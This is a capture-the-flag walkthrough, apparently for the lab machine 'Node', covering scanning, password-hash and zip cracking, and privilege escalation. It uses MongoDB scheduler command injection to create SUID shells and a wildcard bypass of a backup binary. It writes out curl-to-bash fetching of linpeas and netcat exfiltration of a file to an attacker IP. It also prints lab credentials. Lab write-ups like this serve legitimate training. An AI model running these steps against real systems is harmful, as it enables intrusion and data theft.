 Using autorecon to enumerate:
```
# Nmap 7.94SVN scan initiated Sun Feb 25 13:26:45 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Downloads/node/results/10.10.10.58/scans/_full_tcp_nmap.txt -oX /home/kali/Downloads/node/results/10.10.10.58/scans/xml/_full_tcp_nmap.xml 10.10.10.58
Nmap scan report for 10.10.10.58
Host is up, received user-set (0.042s latency).
Scanned at 2024-02-25 13:26:58 IST for 138s
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE            REASON         VERSION
22/tcp   open  ssh                syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwesV+Yg8+5O97ZnNFclkSnRTeyVnj6XokDNKjhB3+8R2I+r78qJmEgVr/SLJ44XjDzzlm0VGUqTmMP2KxANfISZWjv79Ljho3801fY4nbA43492r+6/VXeer0qhhTM4KhSPod5IxllSU6ZSqAV+O0ccf6FBxgEtiiWnE+ThrRiEjLYnZyyWUgi4pE/WPvaJDWtyfVQIrZohayy+pD7AzkLTrsvWzJVA8Vvf+Ysa0ElHfp3lRnw28WacWSaOyV0bsPdTgiiOwmoN8f9aKe5q7Pg4ZikkxNlqNG1EnuBThgMQbrx72kMHfRYvdwAqxOPbRjV96B2SWNWpxMEVL5tYGb
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKQ4w0iqXrfz0H+KQEu5D6zKCfc6IOH2GRBKKkKOnP/0CrH2I4stmM1C2sGvPLSurZtohhC+l0OSjKaZTxPu4sU=
|   256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5cgCL/RuiM/AqWOqKOIL1uuLLjN9E5vDSBVDqIYU6y
3000/tcp open  hadoop-tasktracker syn-ack ttl 63 Apache Hadoop
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-favicon: Unknown favicon MD5: 30F2CC86275A96B522F9818576EC65CF
|_http-title: MyPlace
| hadoop-datanode-info: 
|_  Logs: /login
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X (90%), Crestron 2-Series (86%), Google Android 4.X (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/o:google:android:4.0 cpe:/h:hp:p2000_g3
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 (90%), Linux 3.16 - 4.6 (90%), Linux 3.18 (90%), Linux 3.2 - 4.9 (90%), Linux 3.8 - 3.11 (90%), Linux 4.2 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=2/25%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=65DAF354%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=Z%II=I%TS=8)
SEQ(SP=102%GCD=2%ISR=109%TI=Z%II=I%TS=8)
OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 198.840 days (since Thu Aug 10 17:20:22 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   42.78 ms 10.10.14.1
2   42.76 ms 10.10.10.58

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 25 13:29:16 2024 -- 1 IP address (1 host up) scanned in 151.43 seconds

```
Trying gobuster results in some kind of error:
![](attachment/b233f9619a3fc51524d50ea6230f8781.png)
Now setting up a proxy through burp suite:
![](attachment/e2ed9564ffa669e465ac0b716990e4be.png)
![](attachment/45c891654dc0a5a7b2a263de5ec917a1.png)
Now using gobuster we get this:
![](attachment/7590724c1fd3598d6c871f12439a9c96.png)
This doesn't occur when using our browser so the user agent is being filtered.
The user agent of the browser:
![](attachment/889a880d9404208b457a177293dcc941.png)
Now using -a in gobuster to set user agent:
`gobuster dir -u http://localhost:8081 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`
It still doesn't work
So using sitemap from burp suite to check we find app.js:
![](attachment/61e6b092deb7deff3ae2dbf1be92bdce.png)
Checking  http://10.10.10.58:3000/partials/admin.html
Found :
![](attachment/468cf9adb64743b2714b571e4854c2c4.png)
Checking the api folder in site map:
Request:
![](attachment/6df6c7cc90d253208e1c64d657f2a89d.png)
Response:
![](attachment/3a857f14a3f86166dec344284ce18275.png)
We get the password hashes
But checking response for /api/users/ we get:
![](attachment/5318ee1ef0b733d296f951f5a847bcda.png)
# Exploitation
Now trying to crack it:
myP14ceAdm1nAcc0uNT   :           manchester
Now trying to login:
![](attachment/839ae118712c7b790764d3055b89f874.png)
Now we get a myplace.backup file
Judging the text it is base64 encoded so decoding and outputting to a file:
`base64 -d myplace.backup > unknown`
Using file command to check type:
`file unknown`
![](attachment/bb77dd0eead9bab77e89b90cf9b67a81.png)
It is a zip file.
But it has a password:
![](attachment/6506c9730b114b73f36f37f156b54966.png)We found the password using fcrackzip dictionary attack!
`fcrackzip -D -p '/home/kali/Documents/rockyou.txt' backup.zip`
![](attachment/7365bde0ebb867a53fff9dfc84034595.png)
Now we have the sourcecode:
![](attachment/592c3602ea33c78ed321c04d288e3e42.png)
Searching for keyword password in the source code:
`grep -iR password .| less `
Nothing much usefuil.

Now we found the mongodb cred in app.js.
![](attachment/9bb222425943df5c6d1928754b1f26fe.png)
mark: **5AYRft73VtFpc84k**
Could try this in ssh.
And we get in:
![](attachment/4d087ddef078bfcbb9718032d14f9797.png)Now running linenum:
`curl 10.10.14.22/linpeas.sh | bash`

Seeing processes we find a weird one:
![](attachment/e1728819a2764edc01818e67a7b25a2d.png)![](attachment/69bb34f5cf06c7c5af07a68e657a71bd.png)
Using the password:
`mongo -p -u mark scheduler`

![](attachment/a04591c962387867c8251eaa5a45e485.png)
Using mongo to make an object now:
``db.tasks.insert( { "cmd": "cp /bin/dash /tmp/ippsec; chmod 6755 /bin/dash;" })``
This sets it to run as user tom
`db.tasks.insert({"cmd" : "chmod u+s /tmp/ippsec"})`

Now we find that it executed.
So checking running processes:
`ps aux | grep sched`
![](attachment/4c0cca8d2c7535ec4db5bef3c67372ca.png)

It executed and running:
`/tmp/ippsec -p`
Gets us a shell as tom:
![](attachment/597bf877ae7b4af89663e51a97faba7a.png)
Now running linpeas with `curl 10.10.14.22/linpeas.sh | bash`

We find an suid binary!:
![](attachment/a7c0e2ada72648a0a59a7f9f6aebb966.png)
Now we see that we are in marks group:
![](attachment/f23d96eed79df12d458bea9e0fb5a65c.png)
So changing the permissions with mongo:
`db.tasks.insert({"cmd": "chown tom:admin /tmp/ippsec; chmod 6755 /tmp/ippsec;"})`

Now running /tmp/ippsec:
![](attachment/bc4dda0a86039320c8805ca20668d2d8.png)
We are in the admin group
![](attachment/6ca61fa6cf3b0f2c5286671bd1771d2e.png)

Now transfering the `/usr/local/bin/backup` file with netcat
- Attacker:
	`nc -nvlp 8082 > backup`
- Target
	`nc 10.10.14.22 8082 < /usr/local/bin/backup`
In kali:
We had noticed a backup key in app.js:
![](attachment/9e2dbadaea54230ef2266bc0deb2267e.png)
In tom's shell:
`/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp/fuck > test`

`cat test | base64 --decode > test-decoded`

`file test-decoded`

`unzip test-decoded`

`ltrace /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /../../etc > test`

```
strstr("/tmp", "..")                             = nil
strstr("/tmp", "/root")                          = nil
strchr("/tmp", ';')                              = nil
strchr("/tmp", '&')                              = nil
strchr("/tmp", '`')                              = nil
strchr("/tmp", '$')                              = nil
strchr("/tmp", '|')                              = nil
strstr("/tmp", "//")                             = nil
strcmp("/tmp", "/")                              = 1
strstr("/tmp", "/etc")                           = nil
strcpy(0xff98a1ab, "/tmp")                       = 0xff98a1ab
```

strstr: returns pointer to first occurrence of str2 in str1

strchr: returns pointer to first occurrence of char in str1

strcmp: returns 0 if str1 is same as str2

Wildcards are not checked so:
`/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r**/r**t.txt > root`

`cat root | base64 --decode > root-decoded`
`unzip root-decoded`

Then get the root.txt
